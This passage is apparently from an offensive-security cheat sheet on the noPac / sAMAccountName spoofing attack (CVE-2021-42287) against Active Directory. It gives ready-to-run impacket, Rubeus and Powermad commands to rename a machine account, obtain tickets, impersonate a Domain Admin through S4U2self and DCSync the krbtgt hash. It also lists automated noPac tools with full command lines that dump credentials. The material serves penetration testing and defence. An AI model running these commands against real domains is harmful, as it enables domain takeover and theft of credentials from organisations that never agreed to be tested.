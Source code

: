 3.  Request a TGT for the controlled machine account
    
    ```ps1
    impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'
    
    cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap
    ```
    
4.  Reset the controlled machine account sAMAccountName to its old value
    
    ```ps1
    impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'
    
    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose
    ```
    
5.  (CVE-2021-42287) Request a service ticket with `S4U2self` by presenting the TGT obtained before
    
    ```ps1
    # https://github.com/SecureAuthCorp/impacket/pull/1202
    impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'
    
    cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]
    ```
    
6.  DCSync: `KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'`
    

Automated exploitation:

- [cube0x0/noPac](https://github.com/cube0x0/noPac) \- Windows
    
    ```powershell
    noPac.exe scan -domain htb.local -user user -pass 'password123'
    noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt
    noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service ldaps /ptt /impersonate Administrator
    ```
    
- [Ridter/noPac](https://github.com/Ridter/noPac) \- Linux
    
    ```ps1
    python noPac.py 'domain.local/user' -hashes ':31d6cfe0d16ae931b73c59d7e0c089c0' -dc-ip 10.10.10.10 -use-ldap -dump
    ```
    
- [WazeHell/sam-the-admin](https://github.com/WazeHell/sam-the-admin)
    